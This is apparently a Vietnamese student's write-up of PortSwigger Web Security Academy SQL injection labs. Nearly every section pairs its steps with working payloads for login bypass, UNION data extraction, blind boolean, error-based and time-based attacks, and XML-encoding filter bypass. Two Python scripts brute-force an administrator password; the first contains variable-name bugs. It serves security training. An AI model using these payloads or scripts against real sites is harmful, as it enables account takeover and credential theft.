





# Kiến thức cần biết:

## UNION attack:

-UNION có thể cho phép thêm 1 hoặc nhiều SELECT query và gán nó vào kết quả của query ban đầu.     

**Ví dụ**

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

  - SQL query này sẽ trả về kết quả đơn được cài đặt với 2 cột và bao gồm 4 hàng giá trị a, b của bảng 'table1' và c, d của bảng 'table2'

**Để tiến hành 1 SQL injection UNION attack, cần đảm bảo tấn công của bạn đạt được 2 yêu cầu:**     

  - Có bao nhiêu cột được trả về từ query ban đầu.       
  - Số cột được trả về từ query ban đầu là 1 loại data phù hợp để giữ kết quả từ việc inject query.


## SQL injection cheat-sheet:

- On Oracle, **mỗi SELECT phải sử dụng FROM và chỉ định 1 table có sẵn.** 

- Có một bảng tích hợp trên Oracle có tên **‘Dual’** có thể được sử dụng cho mục đích này. Vì vậy, các truy vấn được inject trên Oracle sẽ cần trông giống như:

```SQL
...' UNION SELECT NULL FROM DUAL--
```

⇒**Dual** table sử dụng để chứa các giá trị NULL.

1. String concatenation      
- Bạn có thể kết hợp nhiều chuỗi để tạo thành 1 chuỗi đơn:       


2. CommentsL:     
- Bạn có thể trích xuất 1 phần của 1 string, từ 1 vị trí bắt đầu cụ thể với độ dài được chỉ định.        
- **Note**: Vị trí bắt đầu từ 1.


-Mỗi ví dụ ở trên đều trả về chuỗi ***'ba'***      

3. Comments             
- Bạn có thể sd comment để bỏ bớt 1 đoạn query và xóa 1 phần của query ban đầu theo input của bạn.      


4. Database version        
- Bạn có thể truy vấn database để xác định thể loại và version của nó. Thông tin này rất hữu dụng khi xây dựng các cuộc tấn công phức tạp hơn.


5. Database contents      
- Bạn có thể liệt kê các bảng tồn tại trong cơ sở dữ liệu và các cột mà các bảng đó chứa:


6. Conditional errors        
- Bạn có thể kiểm tra 1 điều kiện boolean single và kích hoạt database error nếu điều kiện là true.


7. Extracting data via visible error messages       
-Bạn có khả năng gợi ra các thông báo lỗi mà dữ liệu nhạy cảm rò rỉ được trả về bởi truy vấn độc hại của bạn.


8. Batched (or stacked) queries        
- Bạn có thể sử dụng batched query để thực hiện nhiều truy vấn liên tiếp. Lưu ý rằng trong khi các truy vấn tiếp theo được thực thi, kết quả không được trả lại cho ứng dụng. Do đó, kỹ thuật này chủ yếu được sử dụng liên quan đến các lỗ hổng mù nơi bạn có thể sử dụng truy vấn thứ hai để kích hoạt DNS lookup, conditional error, or time delay.


⇒Batched ⇔ dấu ```;```

- **Note**: Với MySQL, kiểu batched query không thể sử dụng cho SQL injection. Tuy nhiên nếu ngôn ngữ sử dụng là PHP hoặc Python để giao tiếp với MySQL database thì có thể.


9. Time delays
- Bạn có thể gây ra time delay trong database khi query được xử lý.Ví dụ dưới đây sẽ gây ra time delay vô điều kiện là 10s.


- **Conditional time delays**
    - Bạn có thể test 1 điều kiện single boolean và kích hoạt 1 time delay nếu điều kiện là true.

        

10. DNS lookup
- Bạn có thể khiến database biểu diễn 1 DNS lookup ra 1 domain bên ngoài. Để làm điều đó, bạn cần sử dụng “Burp colaborator”...


### Lệnh ```group concat()```

- Có chức năng gộp tất cả các bảng thành 1 chuỗi và đặt nó vào cột hiển thị trong trường hợp trang web chỉ render dòng đầu tiên (Do bị LIMIT 1 hoặc gì gì đó...)


# LAB SQL Injection:

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**END GOAL** To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

- Giao diện web sau khi ấn thử vào category ```Gift```


- Vào Burp xem gói tin này:      


- Ta thử phá vỡ cấu trúc query ở đây bằng cách chèn quote (') vào sau Gift:     
```?category=Gifts'```

==> Server trả về ```Internal error```      

==> Xác nhận có SQLi ở đây.

- Payload:    ```category=Gifts'+OR+1%3d1--```

- Ở đây khi user chọn 1 categories, application sẽ sử dụng 1 query như:     

```SELECT * FROM products WHERE category = 'Gifts' AND released = 1```

- Với released = 1 là các sản phẩm mà user thường có thể nhìn thấy, vì vậy khi ta chèn sau Gifts 1 mệnh đề luôn đúng thì các product ẩn (released = 0) sẽ hiện ra.


## Lab: SQL injection vulnerability allowing login bypass

**END goal** To solve the lab, perform a SQL injection attack that logs in to the application as the ```administrator``` user.

- Vào ```my-accout```, thử dùng quote ' và server trả về ```500 Internal error``` 

==> Xác nhận SQLi và query sử dụng quote để truy vấn.

- Xem gói tin POST vừa gửi:    


- Mình có thể suy đoán rằng khi login, application sẽ kiểm tra tài khoản bằng cách gửi query tới server theo lệnh như:     

```SQL
SELECT * FROM users WHERE username = 'username' AND password = 'password'
```

- Payload: ```username=administrator%27+--a...```


## Lab: SQL injection UNION attack, determining the number of columns returned by the query

**END goals** determine the number of columns return by the query.

- Có 2 cách để giải quyết lab:     
  - Cách 1: Dùng ```UNION SELECT NULL, NULL,...```        
    - Nếu đúng: 200 OK     
    - Sai: error.     
  - Cách 2: Dùng ```ORDER BY x``` với x là số cột của table       
    - Ở cách này ta thử x cho đến khi ứng dụng trả về ```error``` ta sẽ biết được số cột sẽ là x - 1.


- Payload: ```'ORDER BY 4--``` trả về error
  
==> Có 3 cột.


## Lab: SQL injection UNION attack, finding a column containing text

**END goal** Biểu diễn UNION attack trả về 1 hàng có giá trị ẩn được cung cấp


- Đầu tiên ta sẽ xác định xem table này có bao nhiêu column bằng ORDER BY và xác định có 3 column.

- Sau đó sử dụng ```UNION SELECT``` để xác định giá trị bị ẩn được cung cấp ở đâu bằng cách thay 1 char vào từng ```NULL``` và nhận thấy ở NULL thứ 2 trả về 200 OK 

==> Giá trị ẩn nằm ở cột số 2.


## Lab: SQL injection UNION attack, retrieving data from other tables

**END goal** Lấy được thông tin username và password từ table users sau đó đăng nhập vào tài khoản administrator.

- Bước 1: Sử dụng ```ORDER BY``` để kiểm tra xem table ban đầu có bao nhiêu column:    


==> Xác định được có 2 cột.

- Bước 2: Kiểm tra xem có bao nhiêu cột chứa hidden data trong 2 cột (dữ liệu dạng string):


==> Cả 2 cột đều dạng string.

- Bước 3: Sử dụng payload: ```' UNION SELECT username, password FROM users``` để gán các giá trị của cột username, password vào ngay sau các column ban đầu, xem trang web:    

    


## Lab: SQL injection UNION attack, retrieving multiple values in a single column

**END goal** biểu diễn UNION attack lấy lại tất cả username và passowrd sau đó đăng nhập vào tài khoản administrator.

- Bước 1: vào burp test xem có ở table ```product``` xác định được có 2 cột.    
- Bước 2: Kiểm tra trong 2 cột, thấy chỉ có cột 2 là data dạng string:     


Vậy là chỉ có thể SQLi để lấy username, password của admin từ 1 cột số 2.

==> Vậy ta cần dùng pipeline '||' để gộp 2 cột username và password vào cùng 1 cột.

==> Trước đó cần xác định database mà server đang sử dụng là gì.

- Bước 3: Thử nghiệm các lệnh 
|Oracle	|SELECT banner FROM v$version|
|    SELECT version FROM v$instance|
|Microsoft |	SELECT @@version|
|PostgreSQL |	SELECT version()|
|MySQL |	SELECT @@version|


Ta xác định được server sử dụng PostgreSQL


- Bước 4: Dùng payload ```'UNION SELECT NULL, username || '@' || password FROM users--```    


==> Lấy được tài khản và mật khẩu của admin.


## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

**END goal** dùng UNION attack để lấy thông tin về database

- Bước 1: dùng UNION attack để lấy thông tin về database


  - Lưu ý ở đây là sau dấu comment '--' cần có 1 kí tự (Một vài database hiện đại yêu cầu thế)

==> Xác định được có 2 cột.

- Bước 2: Xác định có bao nhiêu cột có datatype là string:


==> Cả 2 cột đều dạng string.

- Bước 3: Thay 'a' thành các câu lệnh kiểm tra version ở phần đầu mình đề cập. Ở đây mình kiểm tra được lệnh @@version thỏa mãn

==> Vậy database đang chạy là MySQL.


## Lab: SQL injection attack, querying the database type and version on Oracle

**END goal** display the database version string.

-Tương tự lab trước, ta xác định được database là Oracle.


## Lab: SQL injection attack, listing the database contents on non-Oracle databases

**END goal** Tìm ra table chứa tài khoản và password của admin đồng thời xác định tên của table đó.

- Bước 1: Xác định column của table được hiển thị ra ngoài


==> Có 2 column

- Bước 2: Xác định có bao nhiêu column chứa dạng string:


==> Cả 2 luôn

- Bước 3: Xác định database mà trang web đang chạy:       
  - Do lệnh để liệt kê các table có trong database của 3 db mySQL, PostgreSQL, Microsoft đều giống nhau nên ta chỉ cần xét xem có phải Oracle không:     


==> Không phải Oracle

- Bước 4: Ở các database, có 1 table chứa tất cả các table còn lại tên là: ```information_schema.tables```

==> Để liệt kê tất cả các tên của table có trong db, ta dùng:     

```SQL
'UNION SELECT table_name, 'a' FROM information_schema.tables--
```


==> Ta biết được tên của các bảng rồi, tiếp theo đi tìm xem table nào chứa username và password của admin thôi.

- Bước 5: Dò



  - Thấy cái tên này cũng khá khả nghi. Giờ ta muốn xem thông tin các cột trong 1 table, ta dùng lệnh:

```' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_jarqmx'```

- Webpage sau khi inject:


==> Mình tìm được 2 cột có tên khá khả nghi 

- Đọc 2 cột đó với payload:

```' UNION SELECT username_dmrlcp, password_hghdws FROM users_jarqmx--```

Ta tìm được tài khoản và mật khẩu của admin:


## Lab: Lab: Blind SQL injection with conditional responses

**END goal** Tìm ra mật khẩu của tài khoản administrator và đăng nhập.

- Mình inspect và biết được ở trường ```cookie``` có 2 giá trị là ```session``` và ```trackingId```, ban đầu trang web có giao diện:     



- Thử bấm vào 1 category bất kỳ, quan sát trang web:     



Ta thấy có text: ```Welcome back!``` hiện ra.

- Ta đoán trackingId ở cookie này có thể là 1 giá trị dùng để theo dõi xem liệu máy client của mình đã truy cập trang web này lần nào chưa. Khi máy được truy cập lần đầu, sẽ được cấp 1 ID, mỗi khi request chứa trackingId được chạy, nó sẽ xác định xem liệu có phải người dùng cũ không:    

```SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'```

- Bước 1: Xác định suy đoán của mình:     

  - Ban đầu khi chưa chỉnh sửa trackingId:
    

  - Thử thêm vào sau trackingId 1 đoạn như ```' AND 1 = 0--``` (Nhớ là có URL encode), mục đích là để trả về false xem hành vi của trang web:

    

==> Xác định suy đoán là đúng!

- Bước 2: Xác định xem có tồn tại table là ```users``` không với payload: ```' AND (select 'x' FROM users LIMIT 1) = 'x'--``` (Có URL-encoded)


==>Có tồn tại bảng ```users```

- Bước 3: Xác định xem username tên là administrator có tồn tại trong table users không:

```SQL
' AND (SELECT username FROM users WHERE username = 'administrator') = 'administrator'--
```


==>Xong các bước khảo sát.

- Bước 4: Xác định xem password của ```administrator``` có độ dài bao nhiêu:

```' AND (SELECT username FROM users WHERE username = 'administrator' AND LENGTH(password)>1) = 'administrator'--```

Truy vấn này để xác định xem liệu password của username liệu có >1 hay không


  - +Giờ để tự động hóa các tác vụ thì ta sẽ vào Burp Intruder:


-Thấy rằng từ giá trị number thứ 20 trở đi là có Length khác rồi ==> Check và thấy được các giá trị đó không có Welcome back

==>Password của username có length = 20.

- Bước 5: Xác định từng từ trong password sau khi đã biết được length của nó:

Sử dụng payload mẫu như sau: ```' AND SUBSTRING((SELECT password FROM username WHERE username = 'administrator'), 1, 1)='a'--```

  - Ta có thể dùng tiếp Burp Intruder để làm điều này nhưng mình muốn làm cách thứ 2 là script.

  - Sử dụng script nhé.


```python
import requests
import string
URL = 'https://0ada00f403343adadd2e69e3004d0079.web-security-academy.net/'
cookies = {
    "session" : "rlO3zHjH3CxuJwQ9UfXFDxROIV0vfgXH",
    "TrackingId" : "yWnpXcNC3MypR9lc"
}
CHARSET = string.ascii_lowercase
tracking_id_original = "yWnpXcNC3MypR9lc"
password = ""
for pos in range(1, 21):
    found = False
    for char in CHARSET:
        pay_load = tracking_id_original + f"'AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), {pos}, 1) = '{char}'--"
        cookies["TrackingId"] = pay_load
        
        response = requests.get(URL, cookies=cookies)
        
        if "Welcome back!" in response.text:
            Found = true
            password += char
            print(f"[+] Found charector {pos} : {char}")
            break
        
    if not Found: 
        print("[!] Not Found")
        break
    
print(f"\nadministrator password is: {password}")
```


## Lab: Blind SQL injection with conditional errors

**END goal** Tìm ra password của người dùng administrator và đăng nhập vào tài khoản đó.

- Web page ban đầu:


Ta không thấy bất kì câu thông báo như Welcome back như ở lab trước đó, nhưng khi xem xét thì vẫn thấy có 2 giá trị session và TrackingId.


- Giờ thử vào Burp sau đó thêm ' vào TrackingId để xem web hiển thị như nào:


==> Vẫn có lỗi SQLi ở trường trackingId nhưng giờ đã không còn thông báo ```Welcome back!``` nữa mà là điều kiện lỗi khi database không xử lý được.


- Giờ phải dùng câu lệnh:
```CASE WHEN... THEN...ELSE...END```

- Bước 1: Xác định xem database mà server sử dụng là gì (Vì mỗi db sử dụng câu lệnh khác nhau)

Dùng payload:  ```AND (SELECT 1 FROM dual) = 1--```


==> Đang dùng database của Oracle.


- Bước 2: Xác nhận xem có tồn tại table có tên users trong db không:

Payload: ```' AND (SELECT 1 FROM users WHERE rownum = 1) = 1--```



==>users table exist in db

- Bước 3: Xác nhận xem có tồn tại username tên là administrator trong users table không:

Payload: ```' AND (SELECT 1 FROM users WHERE username = 'administrator' AND rownum = 1) = 1--```


==>Có tồn tại username administrator.

Giờ bắt đầu tìm cách tìm ra password của administrator, ta đã biết khi query lỗi sẽ được trả về ```500 internal error```

==>Ta sẽ sử dụng điều kiện để làm nó lỗi

- Bước 4: Xác định độ dài của password:

Payload:  ```|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND LENGTH(password) > 1) --```

Payload này có ý nghĩa nếu không tồn tại cái điều kiện username là administrator và có password > 1 thì nó sẽ không xét cái case kia.

==>Sẽ trả về 200 OK

Và ngược lại thì sẽ xét case kia và case đã được cài đặt cho kiểu gì cũng trả về lỗi

==> 500 internal error.


- -Giờ vào intruder để tự động hóa thoai.


==>Password có độ dài 20.

- Bước 5: Brute force tiếp password thui:

Payload: ```' || (SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND SUBSTR(password, 1, 1) = 'a')--```

- Ta có script python:

```python
import string
import requests
URL = 'https://0ae4004704309b088073087b00f500da.web-security-academy.net/'
cookies = {
    "TrackingId" : "XUlggHunMAmomffx",
    "session" : "z1qHoMc9GgdlBsHPBdGc799vpdofnyjf"
}
CHARSET = string.ascii_lowercase + string.digits + string.ascii_uppercase
tracking_id_origin = "XUlggHunMAmomffx"
extracted_password = ""
for pos in range(1, 21):
    Found = False
    for charec in CHARSET:
        payload = tracking_id_origin + f"' || (SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND SUBSTR(password, {pos}, 1) = '{charec}')--"
        cookies["TrackingId"] = payload
        
        response = requests.get(URL, cookies=cookies)
        
        if response.status_code == 500:
            extracted_password += charec
            Found = True
            print(f"[+] Found charector {pos} : {charec}")
            break
        else:
            print(f"[-]Charector {charec} not matched in {pos}")
    
    if(Found == False):
        print("[!] Not Found") 
        break
    
print(f"/n-------> password need find: {extracted_password}")
```


## Lab: Visible error-based SQL injection

**END goal** Tìm cách leak password của tài khoản administrator sau đó log in.

- Khi ta thử thêm vào sau trackingId 1 quote thì web báo về:


==>Ta biết được thông tin là kí tự mong muốn của nó là char và cấu trúc SQL query của nó sẽ có dạng:

```SQL SELECT * FROM tracking WHERE id = '0Fhv4wPNNEk31yt4''```

==>Ta suy đoán khi ta inject 1 input lỗi vào server thì server sẽ trả về các alarm để ta sửa chữa

==>Lợi dụng điều này, ta sẽ dùng để biết được password của administrator

-Thử payload: ```AND 1 = CAST((SELECT FROM users LIMIT 1) AS int)--```

==>Trả về:

```Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '0Fhv4wPNNEk31yt4' AND 1 = CAST((SELECT FROM users WHERE user'. Expected  char```


Nôm na là Chuỗi kí tự chưa kết thúc bắt đầu ở vị trí 95

==>Suy đoán là server chỉ thực hiện 1 hành động cho 1 query duy nhất.

==>Xóa cái TrackingId đi.



==>Lấy được username administrator

==>Tương tự lấy password của administrator, ta sử dụng payload:

 ```AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)```


## Lab: Blind SQL injection with time delays

**END goal** SQLi dẫn đến 10s delay.

- -Đầu tiên thử thêm quote ở categories xem web trả về gì


-200 OK nên SQLi không nằm ở category

-Thấy có TrackingId và session ==>Thử thêm quote vào đó

- Các câu lệnh time delay trên các db khác nhau:


-Giờ đi thử từng cái nhể.

Với payload: ```' || (SELECT SLEEP(10)) --```


-Với payload: ```' || (SELECT pg_sleep(10))--```


-Xong lab và biết được rằng server đang sử dụng portgres database


## Lab: Blind SQL injection with time delays and information retrieval

**END goal** SQLi và lấy được password của administrator sau đó đăng nhập vào web


Ta thử thêm quote vào category và TrackingId đều không có gì bất thường xảy ra cả.

==>Suy đoán đây là SQLi time-based.

- Câu lệnh time-delay với điều kiện:


- Nma giờ mình chưa biết server đang sử dụng db nào? ==>Thử với time-delay đơn giản này đã:


-Giả sử là db PostgreSQL, sử dụng payload: ```' || (SELECT pg_sleep(10)) --```


==>Giả sử đã đúng.

-Giờ sang bước tiếp theo xác định xem liệu có tồn tại users table hay không?

Dùng payload:  ```' || (SELECT CASE WHEN(1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--```


==>Có tồn tại.

-Tìm xem có tồn tại user tên administrator trong users không.

Payload: ```' || (SELECT CASE WHEN(username = 'administrator') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--```


==>Có luôn.

-Giờ bắt đầu đi tìm password của nó.

-Xác định độ dài của password.

Payload: ```' || (SELECT CASE WHEN(username = 'administrator' AND LENGTH(password) > 1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--```

+Cho cái payload này vào intruder rồi tự động hóa.


==>Password có độ dài 20.

-Bruteforce password thui:

```' || (SELECT CASE WHEN(username='administrator' AND SUBSTRING(password, 1, 1)='a') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--```


## Lab: SQL injection with filter bypass via XML encoding

**END goal** biểu diễn SQLi lấy dữ liệu từ người dùng sau đó đăng nhập tài khoản đó.

-Trước đó cần biết XML encoding là gì:

    • Khi server nhận dữ liệu từ client (form, request, cookie, etc.), đôi khi dữ liệu đó được parse (giải mã) qua XML parser để xử lý.

    • Trước khi dữ liệu được chèn vào SQL, parser sẽ chuyển các mã XML đặc biệt thành ký tự thật.


🔐 Tại sao XML encoding giúp bypass filter?

Giả sử server có filter chặn từ ', OR, =...` bằng cách so sánh chuỗi input ban đầu (chưa giải mã). Nhưng nếu bạn mã hóa input như sau:

```TrackingId=xyz OR 1=1-- ```

    • Server không thấy từ OR rõ ràng trong input gốc → không chặn.
    Nhưng sau khi decode → nó lại trở thành:

    ```xyz OR 1=1--```

    → Thực thi SQL như bình thường → bypass thành công!


==>Sử dụng extension Hackvertor để bypass WAF (Web Application Firewall)

- Ở lab đã mô tả có SQLi ở chức năng check stock, bấm vào đó:


🧠 Nhận định

    • Request POST kiểu application/xml, tức là server sẽ parse XML để lấy dữ liệu.

    • Có khả năng dữ liệu này sẽ được đưa trực tiếp vào truy vấn SQL, ví dụ:

```SELECT stock FROM products WHERE product_id = '1' AND store_id = '1';```

➡️ Điều này tạo điều kiện SQL Injection thông qua XML input nếu không được kiểm tra đầu vào.

- Use payload: ```1 UNION SELECT username || '@' || password FROM users```


